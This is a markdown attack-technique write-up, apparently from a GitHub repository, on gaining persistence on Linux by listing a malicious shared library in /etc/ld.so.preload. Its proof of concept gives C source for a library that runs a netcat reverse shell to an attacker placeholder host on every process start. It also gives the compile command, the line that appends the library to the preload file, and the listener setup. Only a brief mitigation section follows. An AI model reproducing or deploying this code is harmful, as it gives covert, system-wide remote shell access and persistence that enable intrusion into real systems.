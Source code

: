 # Library Injection via ld.so.preload File 
A technique that uses /etc/ld.so.preload to inject custom libraries for code execution and persistence
### Description
This technique exploits the /etc/ld.so.preload file on Linux systems to achieve system-wide persistence by injecting a shared library that loads with every dynamically linked process. By adding a custom library path to /etc/ld.so.preload, attackers can execute arbitrary code whenever any new process is started. This technique leverages the dynamic linker (ld.so) to preload a specified library before standard libraries, making it effective for both privilege escalation and stealth operations.

When an application starts, the dynamic linker checks /etc/ld.so.preload and loads any libraries listed there, enabling custom code to run with the privileges of the calling process. Because /etc/ld.so.preload applies system-wide and requires root permissions to modify, it is often used by attackers with escalated privileges to maintain control over a compromised system. This can be leveraged to execute logging, monitoring, or malicious activities silently across reboots and user sessions.

## Detailed PoC (Proof of Concept)
Let's walk through the detailed steps of exploiting this technique. I'll break it down into phases: preparation, library creation, injection into /etc/ld.so.preload, and execution.

### Step 1: Understanding the Exploit
Objective: Gain persistence on a Linux system by injecting a malicious shared library through the /etc/ld.so.preload mechanism.
Mechanism: The dynamic linker (ld.so) checks the /etc/ld.so.preload file on system startup and loads any libraries listed there before loading the standard libraries. If an attacker can modify this file, they can insert a malicious library that runs arbitrary code when any process starts.
### Step 2: Creating a Malicious Shared Library
First, you need to create a custom shared library that will be injected when a process starts. This library can contain malicious code, such as a reverse shell, a keylogger, or other persistent malware.

### Step 2: Creating a Malicious Shared Library
First, you need to create a custom shared library that will be injected when a process starts. This library can contain malicious code, such as a reverse shell, a keylogger, or other persistent malware.
Code for a Malicious Shared Library (example: reverse shell):
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

void _init() {
    // The reverse shell payload: connects to an attacker-controlled IP and port
    const char *ip = "attacker_ip_here";  // Replace with attacker's IP
    const int port = 4444;                // Replace with desired port

    char command[128];
    snprintf(command, sizeof(command), "nc %s %d -e /bin/bash", ip, port);

    // Execute the reverse shell
    system(command);
}
```

Steps to compile the malicious shared library:

Save the above code into a file called reverse_shell.c.
Compile it into a shared library:
```bash
gcc -shared -fPIC -o reverse_shell.so reverse_shell.c
```
This creates the reverse_shell.so shared library, which will execute a reverse shell to the attacker's IP and port when any process is started.

### Step 3: Modifying /etc/ld.so.preload
Once the malicious shared library is compiled, the next step is to modify the /etc/ld.so.preload file to ensure that the malicious library is loaded system-wide whenever a process starts.

#### 1. Check if /etc/ld.so.preload exists:

If the file already exists, you'll append your library path to it. If it doesn't exist, you’ll need to create it.

2. Gain root access:

Since modifying /etc/ld.so.preload requires root privileges, you’ll need to escalate privileges to root if not already done. This could be through an existing vulnerability, misconfiguration, or a privilege escalation exploit.

3. Modify /etc/ld.so.preload:

Assuming you've gained root access, you can modify /etc/ld.so.preload by appending the path of the malicious shared library:

echo "/path/to/reverse_shell.so" >> /etc/ld.so.preload
Make sure to replace /path/to/reverse_shell.so with the actual path to your malicious shared library.

### Step 4: Test the Exploit
At this point, the malicious library is set to be loaded every time any dynamically linked process starts. To test the exploit, simply start a new process. For example, try running:

ls
This will run the ls command, but because of the /etc/ld.so.preload file, the reverse shell library will be loaded first, and it will attempt to connect to the attacker's machine.

### Step 5: Set up Listener on Attacker's Machine
To receive the reverse shell, you need to set up a listener on the attacker's machine using Netcat (nc). On your attacker's machine:

nc -lvp 4444
Make sure that port 4444 (or whatever port you specified) is open and listening for connections.

### Step 6: Persistent Execution
Since /etc/ld.so.preload is applied system-wide, this technique will survive reboots and user logins as long as the malicious library remains in the specified path and /etc/ld.so.preload is not modified. This gives the attacker full persistence on the system.

### Step 7: Cleanup and Mitigation
To remove the malicious payload, you would simply need to:

Remove the entry from /etc/ld.so.preload:

sed -i '/reverse_shell.so/d' /etc/ld.so.preload
Delete the malicious shared library:

rm /path/to/reverse_shell.so
Restart the system or relaunch processes to ensure the payload is no longer injected.

# Additional Considerations and Mitigation
### Security Measures:

Restrict write access to /etc/ld.so.preload and other critical system files.
Use tools like SELinux, AppArmor, or other mandatory access control (MAC) systems to limit the impact of privilege escalation attacks.
Ensure that only trusted users can modify the system's library paths and execute dynamic binaries.
Regularly audit the /etc/ld.so.preload file to ensure there are no unauthorized entries.
Monitoring:

Set up monitoring for system changes to /etc/ld.so.preload to detect tampering.
Monitor network activity, particularly outgoing connections to detect suspicious reverse shell connections.

